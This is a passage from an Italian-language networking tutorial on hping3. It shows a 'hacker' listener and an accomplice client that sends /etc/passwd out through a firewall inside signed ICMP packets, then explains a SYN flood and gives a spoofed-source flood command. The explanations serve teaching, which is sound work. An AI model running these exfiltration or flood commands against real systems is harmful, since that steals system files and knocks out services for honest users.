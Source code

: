 Lato server (hacker):

```bash
hping3 192.168.10.66 --listen signature --safe --icmp
```

Output su standard output

Lato client (complice oltre il firewall):

```bash
hping3 192.168.10.44 --icmp –icmptype 8 -d 100 --sign signature --file /etc/passwd
```

* `-d` dimensione del corpo del pacchetto
* `--listen signature` accetta solo i pacchetti firmati 'signature'
* `--sign signature` invia oacchetti firmati 'signature' (La firma è una stringa all'inizio del corpo del pacchetto)
* `--safe` ritrasmissione dei pacchetti persi

### Syn Flood

![SynFlood](../gitbook/images/synflood.png)

Lo hacker dal client manda al server una sfilza continua, uno ogni 10 millisecondi, di pacchetti col flag `SYN` settato.

Il server per ciascuno di essi apre una connessione `pending` (in corso) nella tabella delle connessioni, quindi invia al client il responso `SYN ACK` e attende lo `ACK` finale per un timeout tipico di 20 secondi.

In 20 secondi riceve però 2000 richieste di connessione, mai nessuna terminata, e la tabella delle connessioni può andare in overflow.

Il traffico _vero e onesto_ viene rallentato, forse impedito dall'attacoo DOS, finchè non è terminato.

```bash
hping3 -I eth0 -a 192.168.10.99 -S 192.168.10.33 -p 80 -i u10
```
